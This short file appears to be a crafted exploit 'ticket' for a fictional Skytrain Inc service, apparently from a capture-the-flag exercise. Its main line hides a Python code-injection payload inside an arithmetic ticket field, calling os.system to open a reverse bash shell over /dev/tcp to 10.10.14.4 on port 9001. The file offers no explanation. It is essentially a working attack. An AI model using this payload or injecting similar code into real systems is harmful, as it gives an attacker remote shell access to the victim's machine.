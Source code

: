 # Skytrain Inc
## Ticket to Bridgeport
151 + 10 + 4 and import('os').system('bash -i >& /dev/tcp/10.10.14.4/9001 0>&1')
##Issued: 2021/04/06
#End Ticket